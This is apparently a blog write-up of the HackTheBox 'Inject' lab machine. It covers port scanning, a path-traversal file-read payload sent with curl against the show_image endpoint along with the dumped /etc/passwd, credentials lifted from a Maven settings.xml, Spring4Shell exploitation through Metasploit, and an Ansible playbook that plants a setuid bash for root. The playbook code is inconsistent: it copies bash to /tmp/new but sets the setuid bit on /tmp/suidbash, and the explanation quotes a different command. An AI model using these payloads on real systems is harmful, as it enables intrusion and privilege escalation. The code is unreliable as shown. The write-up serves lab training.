 ```yaml
---
title: HackTheBox - Inject
author: juba0x00
classes: wide
ribbon: MidnightBlue
header:
  teaser: /assets/images/Inject/Inject.png
date: 2023-05-05 14:00:00 +0800
categories: HTB
description: "Inject Machine..."
tags: [lfi, ansible playbook, spring]
---
```


![](/assets/images/Inject/Inject.png)
# Inject

| Release Date | 08 Apr 2023 |
| --- | --- |
| Retire Date |  |
| Solving Date | 05 May 2023 |
| Difficulty | Easy |
| OS | Linux |
| Points | 20 |
| Creator | <script src="http://www.hackthebox.eu/badge/image/396413"></script> |

---

# Enumeration

## port scanning

```bash
export ip=10.10.11.204

nmap -Pn -sV $ip
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 19:01 EET
Nmap scan report for 10.10.11.204
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.26 seconds
```

## website on port 8080

- it seems it’s still in the development, because there is some functions that does not exists like “Log in” and “register”

![Untitled](/assets/images/Inject/Untitled.png)

- we can’t open the blogs or read the comments, just knowing the author (admin, Brandon Auger)

![Untitled](/assets/images/Inject/Untitled%201.png)

### upload page

- there is an upload page at `http://10.10.11.204:8080/upload`
- let’s try to upload an image and see what’s happening then try to upload a malicious file
- after uploading an image the website shows “View your Image” which redirects to `http://10.10.11.204:8080/show_image?img=image_name.png`, probably it’s vulnerable to Local File inclusion

### LFI PoC

```bash
curl http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

---

# Exploitation

- let’s use burp repeater to make it easy
- I checked the common places like the home directory, found phil and frank, not ssh keys found
- an interesting file I found is Apache Maven configuration file `settings.xml` in `/home/frank/.m2` directory

![Untitled](/assets/images/Inject/Untitled%202.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

- after some enumeration, we found that the website uses Spring web service version `2.6.6` which is vulnerable to Spring4Shell RCE ****CVE-2022-22965****

## Initial Access

- After trying some exploits from GitHub, I found this Metasploit exploit that worked properly

![Untitled](/assets/images/Inject/Untitled%203.png)

- great, now we have a shell, let’s try the credentials we found in [settings.xml](#exploitation) to switch the user to phil
    
    ![Untitled](/assets/images/Inject/Untitled%204.png)
    

## user.txt

![Untitled](/assets/images/Inject/Untitled%205.png)

- after a little bit of Enumeration, we found an automation directory in `/opt/`

# Privilege Escalation

- there is an ansible playbook in `/opt/automation/tasks`

## Ansible Playbooks

- So, What is the Ansible Playbook: Ansible playbook is a collection of tasks that are written in YAML format and executed by Ansible to automate the configuration and management of systems. Playbooks are used to define a set of instructions, or "plays," that Ansible should follow to achieve a desired state on the target system.
- Playbooks can be used to automate a wide range of tasks, such as deploying applications, configuring servers, and managing network devices. Playbooks can also be used to orchestrate complex workflows across multiple systems, allowing for the automation of entire IT processes.
- we are going to create an Ansible playbook and elevate our privileges

```yaml
- hosts: localhost
```

This line specifies the target hosts that the playbook will be run on. In this case, the playbook will be run on the local machine (i.e. **`localhost`**).

```yaml
  tasks:
    - name: PrivEsc
      command: /bin/bash -c "cp /bin/bash /tmp/new && chmod +s /tmp/suidbash"
      become: true
```

This section specifies the tasks that Ansible will execute on the target host(s). In this case, there is only one task defined:

- **`name: PrivEsc`**: This line specifies the name of the task. It is used to identify the task in the output of the Ansible playbook.
- **`command: cp /bin/bash /tmp/suidbash && chmod +s /tmp/suidbash`**: This line specifies the command to be executed. In this case, the command copies the **`bash`** binary from **`/bin/bash`** to **`/tmp/suidbash`** and sets the setuid bit on the copied binary. This effectively gives anyone who executes **`/tmp/suidbash`** the permissions of the owner of the file (which is root).
- **`become: true`**: This line specifies that Ansible should execute the task with escalated privileges. In this case, it will use **`sudo`** to elevate the privileges of the user running the playbook to become the root user.

![Untitled](/assets/images/Inject/Untitled%206.png)

## root.txt

![Untitled](/assets/images/Inject/Untitled%207.png)

---

![Owned Inject from Hack The Box!](/assets/images/Inject/achievement.png)

[Owned Inject from Hack The Box!](https://www.hackthebox.com/achievement/machine/664097/533)
